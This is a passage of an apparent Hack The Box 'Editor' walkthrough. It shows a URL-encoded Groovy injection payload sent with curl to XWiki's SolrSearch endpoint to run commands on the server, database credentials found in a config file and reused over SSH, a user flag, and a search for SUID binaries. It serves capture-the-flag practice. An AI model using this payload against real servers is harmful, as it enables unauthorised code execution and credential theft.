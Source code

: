 ```
name="hibernate.connection.username" --> xwiki 
name="hibernate.connection.password" --> theEd1t0rTeam99
name="hibernate.connection.url" --> /xwiki/bin/create/Main/jdbc%3Amysql%3A%2F%2Flocalhost%2Fxwiki%3FuseSSL%3Dfalse/WebHome?parent=Main.SolrSearch
```

Since the `hibernate.cfg.xml` file is related to how the connections to the DBs are made, I used the retrived data for crafting specific payloads for dumping DB data:

```
curl "http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22mysql%20-u%20xwiki%20-p'theEd1t0rTeam99'%20-D%20xwiki%20-N%20-B%20-e%20'SHOW%20TABLES%3B'
%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%2fasync%7d%7d"
```

Unfortunately I was not able to dump database data by using `xwiki/theEd1t0rTeam99`. But maybe the username is not correct. Since we dumped the `/etc/passwd/` lets look at the users and lets try to enstablish an ssh connection with this password `theEd1t0rTeam99`. By using `oliver` as user I was able to connect via ssh.

`cat user.txt`

`3878f923e6901d07d557d8d42e934d67`

The user flag is ours! Now lets move to the root flag.

Lets check if we can use sudo:

`sudo -l`

`Sorry, user oliver may not run sudo on editor.`

Ok lets start looking for some ways to become root. Lets look for uncommon SUID binaries or outdated binaries that have exploits.

`find / -perm -4000 -type f 2>/dev/null`

```
/opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
/opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ioping
/opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```
